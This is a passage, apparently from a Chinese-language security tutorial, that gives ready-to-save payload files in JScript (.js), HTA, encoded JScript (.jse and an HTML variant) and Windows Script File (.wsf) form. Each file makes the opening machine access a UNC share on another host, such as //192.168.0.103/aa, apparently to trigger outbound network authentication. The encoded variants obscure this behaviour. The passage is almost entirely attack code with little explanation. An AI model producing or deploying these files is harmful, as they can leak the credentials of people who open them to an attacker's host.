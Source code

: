 

**JScript**

利用这种方法时，需要将下面的代码存储为Windows的“js”文件:



```
var fso = new ActiveXObject("Scripting.FileSystemObject")
fso.FileExists("//192.168.0.103/aa")
```

同样，也可以应用于“.hta”文件中，不过还是只适用于IE：



```
&lt;html&gt;
&lt;script type="text/Jscript"&gt;
&lt;!--
var fso = new ActiveXObject("Scripting.FileSystemObject")
fso.FileExists("//192.168.0.103/aa")
//--&gt;
&lt;/script&gt;
&lt;/html&gt;
```

编码版，需要存储为“.jse”文件：

```
#@~^XAAAAA==-mD~6/K'xh,)mDk-+or8%mYvE?1DkaOrxTRwks+jzkYn:`}`8LmOE*i0dGcsrV3XkdD/vJzJFO+R8v0RZRqT2zlmE#Ux4AAA==^#~@
```

HTML版本：



```
&lt;html&gt;
&lt;script type="text/Jscript.Encode"&gt;
&lt;!--
#@~^XAAAAA==-mD~6/K'xh,)mDk-+or8%mYvE?1DkaOrxTRwks+jzkYn:`}`8LmOE*i0dGcsrV3XkdD/vJzJFO+R8v0RZRqT2zlmE#Ux4AAA==^#~@
//--&gt;
&lt;/script&gt;
&lt;/html&gt;
```



**Windows脚本文件**

将下面的代码存储为“.wsf”文件：



```
&lt;package&gt;
  &lt;job id="boom"&gt;
    &lt;script language="VBScript"&gt;
       Set fso = CreateObject("Scripting.FileSystemObject")
       Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
    &lt;/script&gt;
   &lt;/job&gt;
&lt;/package&gt;
```
